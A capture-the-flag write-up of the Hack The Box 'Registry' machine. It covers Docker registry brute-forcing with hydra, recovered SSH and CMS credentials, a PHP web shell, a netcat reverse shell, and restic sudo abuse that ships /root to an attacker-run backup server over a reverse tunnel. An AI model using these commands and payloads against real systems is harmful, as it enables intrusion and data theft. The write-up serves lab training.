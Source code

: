 # REGISTRY write-up
![](images/logo.png)

Registry is a hard difficulty Linux machine, which features Docker and the Bolt CMS running on Nginx. Docker registry API access is configured with default credentials, which allows us to pull the repository files. Using the disclosed information it is possible to obtain an initial foothold. User credentials for Bolt CMS can be obtained, and exploiting the CMS provides us with access to the www-data user, who has a sudo entry to perform backups as root using the restic program. After taking a backup of the root folder remotely and mounting the repository with restic, the root flag is obtained.

**Setup**

Target Subject | More info
------------ | -------------
Enumeration | [https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997](https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997)
Port Forwarding | ([https://www.ssh.com/ssh/tunneling/example](https://www.ssh.com/ssh/tunneling/example)
Docker API | [https://docs.docker.com/registry/](https://docs.docker.com/registry/)
Web Exploitation | [https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title](https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title)
Restic Exploitation | [https://restic.net/](https://restic.net/)

I decided to use COMMANDO from FireEye for this machine because I initially thought this was a Windows box.
#
**INITIAL RECON**

- [x] services? used -  **NMAP**
![](images/nmap.png)
- [x] default creds anywhere?  -  **WEB**
- username/password

- [ ] If HTTP, webpage discoveries (manual)?
- nothing special

- [x] If HTTP, directory discovery (automated)? - **GOBUSTER**
- [ ] SMB? -
- [x] Brute force password anywhere? - **HYDRA**

**Scan assessment**:

-   22/tcp - Typical OpenSSH2.0 running on a Ubuntu box.
    
-   80/tcp & 443/tcp - running nginx 1.14.0. TLS certificate has a subdomain of **docker.registry.htb**

-- Added: docker.registry.htb to my hosts file.     --

#
**INITIAL ACCESS**

*Docker Registry predictable  username password*
-   There's a good exploit explanation here: [https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/)
![](images/hydra.png)
-   navigating to http://docker.registry.htb/v2/ produces a log-in prompt   

    -   brute forcing is needed since no other information is present. I tried typical username of ADMIN: **bash.exe  -c "hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt docker.registry.htb http-get /v2/ -Vf"**

BruteForce was successful because of a predictable username/password combo and hydra's (**-e nsr**) which does 3 password attempts: the username as the password, username with blank password, and backwards username as password.

#
**OBTAIN USER FLAG**
1. According the website discovered during my recon, check for docker images then eventually download the manifest file: http://docker.registry.htb/v2/bolt-image/manifests/latest
    - Notice the blobs in the manifest file
![](images/manifest.png)
2. Download the blobs (i.e. the docker image pieces of the container):
    - $cred = New-Object System.Management.Automation.PSCredential -ArgumentList @('admin',(ConvertTo-SecureString -String 'admin' -AsPlainText -Force)) *** This creates an admin:admin object that can be used to log into the site.
    - Select-String .\manifests.txt -Pattern blobsum | % {($_ -split "\s+")[2] -replace '"',""} | % { wget -Credential $cred "http://docker.registry.htb/v2/bolt-image/blobs/$_" -PassThru -OutFile "$_".Replace(':','_') }
![](images/wget.gif)
--NOTE--
Windows has an issues with filenames containing a semicolon ( : ), so I had to replace the semicolon with an underscore .
3.    Check the file types, bash.exe  -c  "file sha*". According to the registry website. The files are typically stored as tarballs. So they'll need to be renamed in order to extract them
    - Rename the files to tar.gz: ls "sha*" | ren -NewName {$_.name + ".tar.gz" }
    - use tar.exe to extract: ls *.tar.gz | % {tar.exe -xvf $_}
4. This is a HTB machine so typically the HOME directories and webserver DIR(s) are the most important. Lets start at with the **root** DIR:
     - cat the bashrc_history file in ROOT's DIR and notice username for ssh
![](images/bashrc.png)

    - cat viminfo file in ROOT's DIR and notice prior vim usage.
    - cat ..\etc\profile.d\01-ssh.sh

![](images/01-ssh.png)

5. The passphrase for the ssh key is there: **bolt:GkOcz221Ftb3ugog**
6. Use id_rsa private key to log in and cat user.txt

#
**RECON WITH ACCESS**

1. enumerate bolt DIR
     - Nothing interesting
2. enumerate webserver DIR
    - notice the restic backup service in /var/www/html/backup.php
![](images/backupPHP.png)
    - notice a .db file readable by everyone. I tried to look for 'admin', 'bolt', and 'root'. Using 'root' was fruitful
![](images/boltDB.png)

3. Crack with John: bash -c "john --wordlist=/usr/share/wordlists/rockyou.txt database.hash"
    - discover creds: **admin:strawberry**
4. Looked like installed app is called bolt (i.e. bolt/bolt)
    - https://github.com/bolt/bolt (the CMS' github)

#
**OBTAIN ROOT FLAG**
1.    Navigate to registry.htb/bolt/bolt
    - login using admin creds
2. Machine doesn't allow reverse shells to attack machine so open a nc listener as user bolt and create a RCE php file
    - nc -nvvlp 1337
    - php:
> **<?php  $cmd=$_GET['cmd']; system($cmd);**
>
    
3.  Navigate to CONFIGURATION >> MAIN CONFIGURATION.
4.  Add php as one of the allowed file types.    
5.  Upload RCE php and navigate to the following: **registry.htb/bolt/files/shell.php?cmd=nc.traditional -ne /bin/bash 127.0.0.1 1337**

![](images/ncReverse.png)

7.  sudo -l and notice:

>     User www-data may run the following commands on bolt:
>             (root) NOPASSWD: /usr/bin/restic backup -r rest*

Since I found backup earlier and then again as sudo -l, I figured that the vulnerability was involving a rogue backup operation using restic. I switch over to the kali container on COMMANDO to download tools that I would need.

  

1.  Install the restic service: **apt install restic**    
2.  pull the rest server: [https://github.com/restic/rest-server](https://github.com/restic/rest-server)    
3.  initial repository directory: restic init -r /tmp/restic (/tmp/restic is default directory for rest-server according to its documentation)    
4.  install rest-server: **CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server**    
5.  run server: **./rest-server --no-auth** (default listening port is 8000)    
6.  Setup reverse SSH tunnel: **ssh bolt@registry.htb -i bolt.key -R 8000:localhost:8000**    
7.  Invoke sudo vulnerability on victim as www-data: **sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root**
    

The victim /root DIR was sent back to my attack machine. Then it was just a matter of restoring the back up and obtaining the root.txt

1.  restic restore -v -t /tmp/ -r /tmp/restic/ 56e60c8fbac4cd31f134f4af22ffe97fe95b9653c522e049f66aa6f1eaf65b3c
    - Can you also just do **latest** as well as opposed to using the snapshot hash unless you made the victim backup multiple tings.
2. cat root.txt
![](images/end.png)
